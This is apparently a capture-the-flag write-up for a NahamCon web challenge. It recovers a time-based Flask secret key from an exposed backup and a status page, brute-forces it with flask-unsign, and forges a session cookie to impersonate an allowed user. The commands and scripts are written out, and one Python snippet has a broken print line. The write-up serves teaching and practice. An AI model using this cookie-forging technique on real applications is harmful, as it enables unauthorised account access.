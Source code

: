 # Challenge Name: Thomas DEVerson


![date](https://img.shields.io/badge/date-23.05.2024-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-175-blue.svg)  

## Description

Author: @Jstith  
  
All things considered, I'm impressed this website is still up and running 200 years later.  
  
## Detailed solution

![Pasted image 20240525232509](https://github.com/BaadMaro/CTF/assets/72421091/f452f6c5-cfa2-4f21-b0e5-69358adcd8e4)

Start checking the pages. I found a comment on the Messages page view-source:http://challenge.nahamcon.com:32723/messages

```html
<!-- <a href="/backup" class="pl-md-0 p-3 text-white">Backup</a> !-->
```

http://challenge.nahamcon.com:32723/backup

![Pasted image 20240525232639](https://github.com/BaadMaro/CTF/assets/72421091/ca88130f-7376-4769-b8f8-1de85ba0d6b8)

We have a part of the app.py (10 lines) 

We can clearly see the app secret used for flask cookie management and also users.

The secret key is linked to the date time of app start, which is available at http://challenge.nahamcon.com:32723/status

The cookie used was `eyJuYW1lIjoiZ3Vlc3QifQ.ZlJnJQ.v6T-LeB_sG7QtOz-9nts1T9-jyA` which has the part {"name":"guest"} (using base64 decode).

Now we need to get the exact time used for secret key to forge our cookie using one of the allowed users

Getting the date http://challenge.nahamcon.com:32723/status

```python
from datetime import datetime, timedelta

# Get the current date and time
now = datetime.now()

# Define the duration to subtract
days = 82816
hours = 12
minutes = 41

# Create a timedelta object for the duration
duration = timedelta(days=days, hours=hours, minutes=minutes)

# Calculate the past date and time
past_date = now - duration

# Print the result
print("past_date)
```

I got 1797-08-25. I ignored the hour and minutes to try to find them accurately.

```python
for hour in range(24):
    for minute in range(60):
        print(f"THE_REYNOLDS_PAMPHLET-17970825{hour:02}{minute:02}")
```

I saved the output in secrets.txt and started the cracking process using `flask-unsign`

```
flask-unsign -c "eyJuYW1lIjoiZ3Vlc3QifQ.Zk-uig.mX9ksf-4ohQQjnA3I6m2OlENt4Y" --wordlist secrets.txt -u --no-literal-eval

[*] Session decodes to: {'name': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 640 attemptsLET-17970825
b'THE_REYNOLDS_PAMPHLET-179708250845'

```

We got the secret key `THE_REYNOLDS_PAMPHLET-179708250845`

Now let's generate our cookie

```
└─$ flask-unsign -c "{'name': 'Jefferson'}" --secret "THE_REYNOLDS_PAMPHLET-179708250845" --sign
eyJuYW1lIjoiSmVmZmVyc29uIn0.Zk-3WQ.WCy1txbI_4wuGzruToNF7FY14YQ
```

We need to change the cookie in devtools and check messages page

![Pasted image 20240525234745](https://github.com/BaadMaro/CTF/assets/72421091/56136246-ffd9-43d2-963f-4fd0fdf1588a)

## Flag

```
flag{f69f2c087b291b9da9c9fe9219ee130f}
```
